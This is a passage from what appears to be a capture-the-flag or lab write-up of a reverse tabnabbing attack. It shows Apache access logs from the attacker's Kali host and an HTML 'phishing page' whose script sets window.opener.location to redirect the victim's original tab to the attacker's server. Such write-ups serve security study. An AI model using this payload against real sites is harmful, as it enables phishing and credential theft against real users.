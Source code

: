 After submitted the URL, I inspected the source code and found the **target='_blank'** attribute, which is vulnerable to reverse tabnabbing.

![](/assets/images/thales/screenshot-6.png)

I monitored the apache logs and a few minutes later I noticed that the target server was connecting to my HTML script.

```console
root@kali:~# tail -f /var/log/apache2/access.log
172.16.178.1 - - [26/Sep/2022:22:10:17 -0500] "GET /test.html HTTP/1.1" 200 406 "http://172.16.178.137/" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
172.16.178.137 - - [26/Sep/2022:22:12:06 -0500] "GET /test.html HTTP/1.1" 200 406 "-" "python-requests/2.22.0"
172.16.178.137 - - [26/Sep/2022:22:14:06 -0500] "GET /test.html HTTP/1.1" 200 406 "-" "python-requests/2.22.0"
```

## Exploitation
### Reverse tabnabbing

I created the following HTML script that simulates a phishing page.

```html
<html>
    <head>
    </head>
    <body>
        <h2>My test page</h2>
        <script>
            window.opener.location = "http://172.16.178.1:8080";
        </script>
    </body>
</html>
```

I sent the URL of the phishing page.

![](/assets/images/thales/screenshot-7.png)
